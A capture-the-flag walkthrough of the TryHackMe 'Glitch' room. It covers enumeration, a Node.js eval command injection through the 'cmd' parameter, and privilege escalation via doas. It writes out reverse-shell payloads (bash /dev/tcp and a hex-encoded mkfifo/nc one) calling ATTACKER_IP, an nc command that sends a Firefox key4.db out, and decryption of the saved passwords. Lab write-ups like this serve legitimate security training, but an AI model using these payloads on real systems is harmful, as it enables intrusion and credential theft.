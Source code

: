 # Glitch Walkthrough
<br/>

## Intro
Wlecome to the Glitch challenge, here is the link to the [room](https://tryhackme.com/room/glitch) on TryHackme.


"This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory. "

Whenever you feel ready press on "Start Machine" and connect via OpenVPN from your machine or use the AttackBox.

Let's begin!

<br/>
<br/>

## The Challenge
Let's begin with an nmap scan to see if there are any open ports with services running:
```bash
nmap -sV -sC MACHINE_IP
```

The output shows us that port 80 serving an nginx HTTP server is open, let's visit it:
```
http://MACHINE_IP
```

The homepage contains only a background picture, we can check the page source code, inside we can notice a JavaScript block to fetch some access info from the `/api/access` API.

Let's interact with the API and see what we get:
```bash
curl http://MACHINE_IP/api/access
```

This result in a response containing a base64 encoded token: `{"token":"REDACTED"}`.
I wonder what is the original string that has been encoded:
```bash
echo "REDACTED" | base64 -d
```

--> REDACTED

Since we have an access token it means that there must be somewhere we can access.
Let' launch a directory scan of the website:
```bash
gobuster dir -u http://10.10.241.185/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

We get:
```
/img                  (Status: 301) [Size: 173] [--> /img/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/secret               (Status: 200) [Size: 724]
```

The last one looks interesting, so let's either add the token in our browser cookie or pass it as an header in a request in the terminal.
Anyway we lend on a new page with the picture of a rabbit with the word "Mad".

Let's do some more enumeration
```bash
gobuster dir -u http://10.10.241.185/api -w /usr/share/seclists/Discovery/Web-Content/common.txt 
```

Let's hit the new API endpoint:
```bash
curl http://10.10.241.185/api/items -H "Cookie: token=this_is_not_real"
```

Response
```json
{"sins":["lust","gluttony","greed","sloth","wrath","envy","pride"],"errors":["error","error","error","error","error","error","error","error","error"],"deaths":["death"]}
```

Let's see if we can interact with this endpoint using other HTTP methods:
```bash
curl -X OPTIONS http://10.10.241.185/api/items -H "Cookie: token=this_is_not_real"
```

We get `GET, HEAD, POST`, that's interesting, let's try `POST`:
```bash
curl -X POST http://10.10.241.185/api/items -H "Cookie: token=this_is_not_real"
```

This print us the message:
```json
{"message":"there_is_a_glitch_in_the_matrix"}
```

This shows that we are probably on the right path, maybe we can exploit this method uploading something.
I tried sending data JSON formatted or as a body string but got nothing, probably not the right method, maybe it uses an URL parameter.

Since we do not know which parameter, we can fuzz to find it:
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://10.10.241.185/api/items\?FUZZ\=123 -H "Cookie: token=this_is_not_real" -X POST
```

This give us the `cmd` one.
If we try to pass the `?cmd=whoami` we get the following error:
```bash
curl -X POST http://10.10.241.185/api/items\?cmd\=whoami -H "Cookie: token=this_is_not_real"
```

```
ReferenceError: whoami is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)
```

(NOTE: i am using *curl* here but you could use Burp Suite as well if you prefer a better graphical interface)

The error is probably caused by the fact that the web-app is using Node.js + PHP and do not recognize the `whoami` command, but this verbose error give us a hint on how to proceede.
We can use a function like `require()` to import the the `child_process` module, and then uses the `exec()` function to execute the  command we want, like this:
```bash
curl -X POST http://10.10.241.185/api/items\?cmd\=require\(%22child_process%22%29.exec\(%22ls%22%29 -H "Cookie: token=this_is_not_real"
```

This command gives us the response: `vulnerability_exploited [object Object]`.
It worked, now let's turn it in something useful, like injecting a payload that result in a reverse shell on our machine.

Firstly let's prepare a listener on our machine:
```bash
nc -lvnp 1234
```

Then we generate a simple bash reverse shell and we URL encode:
```bash
curl -X POST http://10.10.241.185/api/items\?cmd\=require\(%22child_process%22%29.exec\(%22bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/ATTACKER_IP/1234%20%3E%26%201%27%22%29 -H "Cookie: token=this_is_not_real"
```

This will gives us a shell in a couple of seconds.
Unfortunately the shell was broken this way so i have switched to the *mkfifo* one and URL encoded everything, this time worked perfectly
```bash
curl -X POST http://10.10.241.185/api/items?cmd=%72%65%71%75%69%72%65%28%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%22%29%2e%65%78%65%63%28%22%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%39%2e%30%2e%31%30%30%20%31%32%33%34%20%3e%2f%74%6d%70%2f%66%22%29 -H "Cookie: token=this_is_not_real"
```

Once in the shell we can run `whoami`, we see we are "user", let's navigate to it's home directory and get the first flag:
```bash
cat /home/user/user.txt
```
--> REDACTED

<br/>

### Privilege Escalation
Now before proceding i decided to upgrade the shell to a fully interactive tty (follow my guide [here](https://github.com/Maat-Cyber/Maat-Cyber-World/blob/f3e04826cef5715618650899d8bfee3d241b615f/Tips-%26-Resources/Reverse_Shell-Upgrade.md) if you don't know how to do it).

In `.firfox`
release
```bash
cd  ~/.firefox/b5w4643p.default-release
```

Get login.json and key4.db
on our system:
```bash
nc -nlvp 4444 > key4.db
```

on target:
```bash
nc -nv ATTCKER_IP 4444 < key4.db
```


This tool https://github.com/unode/firefox_decrypt or i used this https://github.com/lclevy/firepwd/blob/master/firepwd.py
```bash
git clone https://github.com/lclevy/firepwd.git
cd firepwd
```

Install required packages:
```python
pip3 install -r requirements.txt
```

Finally run it:
```bash
python3 firepwd.py
```
(ensure the 2 files are in the same directory as the script )

And we extracted the credentials of the v0id user:
```
b'v0id',b'love_the_void'
```

Let's change user now:
```bash
su v0id
```

From the previous scan we found a binary that has the SUID bit set
```bash
ls -l /usr/local/bin/doas
```

This command allow us to run commands as other users:
```bash
doas -u root cat /root/root.txt
```

Insert the v0id user password when prompted, and... here we have the root flag content:
--> REDACTED



<br/>
<br/>

Congratulations you have successfully exploited the web application and gained access to the system to escalate your privileges and get the root flag.

I hope you had fun doing the challenge and following along.

Catch you in the next CTF 😃 
